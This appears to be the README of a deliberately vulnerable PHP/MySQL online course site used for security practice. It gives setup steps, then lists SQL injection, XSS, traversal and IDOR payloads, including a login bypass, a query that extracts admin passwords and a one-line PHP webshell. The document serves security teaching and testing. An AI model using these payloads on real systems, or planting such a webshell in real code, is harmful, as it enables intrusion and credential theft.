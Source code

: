 1. Requirements:
   - PHP 8.0+
   - MySQL 8.0+
   - Apache/Nginx web server

2. Database setup:
   - Create database: `online_course`
   - Import: `database/init.sql`

3. Configuration:
   - Update `config/env.php` with your database credentials

4. Web server configuration:
   - Point document root to project directory
   - Ensure `.htaccess` is enabled (Apache)

## Security Testing

### SQL Injection Examples

```sql
-- Login bypass
Phone: 081234567890' OR '1'='1' --

-- Union-based injection
Search: ' UNION SELECT username,password FROM admin_users --

-- Boolean-based blind injection
Search: ' AND (SELECT COUNT(*) FROM users) > 0 --
```

### XSS Examples

```javascript
// Reflected XSS
URL: /?search=<script>alert('XSS')</script>

// Stored XSS in profile
Name: <img src=x onerror=alert('XSS')>
```

### File Upload Exploitation

```php
// PHP webshell
<?php system($_GET['cmd']); ?>

// Directory traversal
../../etc/passwd
```

### IDOR Examples

```
// Access other user's courses
/pages/member/course-detail.php?id=999

// View other company's data
/pages/company/dashboard.php?company_id=1
```

